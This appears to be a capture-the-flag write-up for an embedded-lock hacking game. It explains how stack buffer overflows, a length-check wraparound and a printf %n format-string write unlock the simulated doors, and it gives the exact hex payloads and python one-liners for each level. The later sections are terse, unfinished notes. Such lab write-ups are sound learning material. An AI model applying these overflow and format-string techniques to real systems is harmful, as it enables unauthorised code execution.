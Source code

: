 Now the lock code is getting serious, and wants not only a password, but a username as well.
This is the memory layout after the username and password has been written by strcpy. 
```
43a0:   0000 7573 6572 6e61 6d65 0000 0000 0000   ..username......
43b0:   0000 0008 1070 6173 7377 6f72 6400 0000   .....password...
43c0:   0000 0000 0000 0000 0000 0000 4044 0000   ............@D..
```

First I tried to overflow the username without success, because
```
464c:  c493 faff      tst.b -0x6(r4)
```
tests if there is a null byte after the password, and if you supply a password which doesn't precisely span until that memory value(r4 is 0x43cc there), than the overflown username will fail this test. So the tactic which I used here, is to overflow the username with a long enough hex to control the sp at the end of the login function, and give an exactly 17 character long password, so the null terminal of that string will eventually make the above test successful, and thus __stop_progExec__ won't be called.
0x44a4 will call the unlock door function at the end.

username: 6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d08126d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d4a44
password: 6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d6d

# 0x09 Jakarta

This challenge is pretty much the same as the previous, besides the length check of the username and the password, which is the following:
```
4600:  7f90 2100      cmp.b #0x21, r15
```
Here, we can exploit the fact that this only check r15 mod 255, and that the password is copied after the username without a null byte, so if the length of the username is less or equal than 32 and the length of the username and the password modulo 255 is less or equal than 32, we can achieve a lengthy enough password.
We have to care about the position of the address of the unlock_door function(0x444c)
The solution is the following:
```
#username:
python -c 'print "6d" * 32'|xclip
#password:
python -c 'print "6e" * 4 + "4c44" + "6e" * 220'|xclip
```

# 0x0a Addis Ababa


50405040256e
4f40256e

sp+2 before printf
%x%n
50402578256e

# 0x0b Novosibirsk
